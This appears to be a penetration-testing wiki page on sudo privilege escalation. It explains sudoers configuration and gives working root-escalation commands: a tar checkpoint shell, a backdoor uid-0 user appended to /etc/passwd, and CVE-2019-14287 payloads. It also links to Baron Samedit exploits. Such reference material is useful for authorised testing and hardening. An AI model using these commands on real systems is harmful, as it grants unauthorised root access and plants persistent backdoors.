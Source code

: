# SUDO

## Theory

`sudo` \(Super User DO\) is a program for UNIX-like computer operating systems that allows users to run programs with the security privileges of another user \(by default, the superuser\).

Unlike the similar command `su`, users must, by default, supply their own password for authentication, rather than the password of the target user. After authentication, and if the configuration file, which is typically located at `/etc/sudoers`, permits the user access, the system invokes the requested command with the target user's privileges.

Sudo users are called sudoers \( 😯 _I know right, big brains here_  🧠 \). What sudoers are allowed to do is defined in the `/etc/sudoers` configuration file. This file, owned by `root`, is supposed to be 440 \(read-only\) and should only be edited with `visudo`, `sudoedit` or `sudo -e`.

![](../../../.gitbook/assets/sudoers_config.png)

## Practice

There are many ways to escalate privileges by exploiting `sudo`, either by profiting from insecure configuration, or by exploiting the program's vulnerabilities.

### Default configurations

The `sudo -l` command can be run by sudoers to check their sudo rights. The output reflects the `/etc/sudoers` configuration that applies to the user. It should like the following \(default config for a new sudoer\).

```bash
# Format is
User johnthesudoer may run the following commands on johncomputer:
    (ALL : ALL) ALL
```

For instance, this configuration allows the `johnthesudoer` user to run any privileged command as long as `johnthesudoer`'s password is known. A privileged session can be obtained with `sudo -i`, `sudo -s`, `sudo su` or `sudo <program>`.

### Living off the land

While the SUDO configuration can be hardened to restrict privileged execution to specific program, there are some that can be abused to bypass local security restrictions. This is called [Living off the land](living-off-the-land.md).

```bash
User johnthesudoer may run the following commands on johncomputer:
    (ALL : ALL) /bin/tar
```

The configuration above only allows sudoer `johnthesudoer` to execute `/bin/tar` as root as long as `johnthesudoer`'s password is known. The thing is tar is program that can be used to obtain a full session, hence bypassing the restrictions induced by sudoers configuration.

```bash
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Other examples can be found on the [Living off the land](living-off-the-land.md) note.

While some programs can be used to obtain a full shell, others can be used to induce changes on the system to grant root privileges, like `/usr/bin/cp`. The following commands are used to edit the `/etc/passwd` file to add a password-less user with `root`'s uid and gid.

```bash
cp /etc/passwd /tmp/passwd.bak
echo "backdoorroot::0:0:Backdoor root:/root:/bin/bash" >> /tmp/passwd.bak
sudo /usr/bin/cp passwd.bak /etc/passwd
su -l backdoorroot
```

### CVE-2019-14287 \(\#-1\)

With SUDO running version &lt; 1.8.28, an attacker in control of a "runas ALL" sudoer account can bypass certain policy blacklists and session PAM modules by invoking sudo with a crafted user ID. 

Exploiting the bug requires sudo privileges and being able to run commands with an arbitrary user ID. This means the user's sudoers entry has to have the special value `ALL` in the "runas" specifier \(the yellow and green parts in [the doodle above](sudo.md#theory)\).

Vulnerable users can be found with the two commands below

```bash
grep -e '(\s*ALL\s*,\s*!root\s*)' /etc/sudoers
grep -e '(\s*ALL\s*,\s*\!#0\s*)' /etc/sudoers
```

The vulnerability can be exploited with one of the following payloads

```bash
sudo -u#-1 sh -p
sudo -u#4294967295 sh -p
sudo -u#$((0xffffffff)) sh -p
```

{% hint style="info" %}
**Some technical details to the vulnerability**

Sudo uses the `setresuid(2)` and `setreuid(2)` system calls to change the user ID before running the command. So if you try to enter a negative user id `-1` \(or its 32-bit unsigned equivalent `4294967295`\), `setresuid(2)` and `setreuid(2)` cannot set a negative user id and you're left with the user id sudo is running with : `0`.

Therefore `sudo -u#-1 id -u` or `sudo -u#4294967295 id -u` will actually return `uid=0` and run command as root.

More info can be found [here](https://nvd.nist.gov/vuln/detail/CVE-2019-14287)
{% endhint %}

### CVE-2021-3156 \(Baron Samedit\)

With SUDO running version &lt; 1.9.5p2, a Heap-based Buffer Overflow allows for privilege escalation to root via `sudoedit -s` and a command-line argument that ends with a single backslash character. To test if a system is vulnerable or not, the following command can be run as a non-root user.

```bash
sudoedit -s /
```

Patched versions will throw a `usage:` help message while vulnerable ones will throw the following `sudoedit:` error.

```text
$ sudoedit -s /
[sudo] password for user: 
sudoedit: /: not a regular file
```

This vulnerability can be exploited with [this exploit](https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156_one_shot), or [this one](https://github.com/worawit/CVE-2021-3156).

More info about this vulnerability can be found [here](https://nvd.nist.gov/vuln/detail/CVE-2021-3156) and [here](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit).

## References

{% embed url="https://gtfobins.github.io/\#+sudo" caption="" %}

{% embed url="https://jamesluo-843.medium.com/exploiting-cve-2019-14287-37eac7023a4" %}

{% embed url="https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit" %}



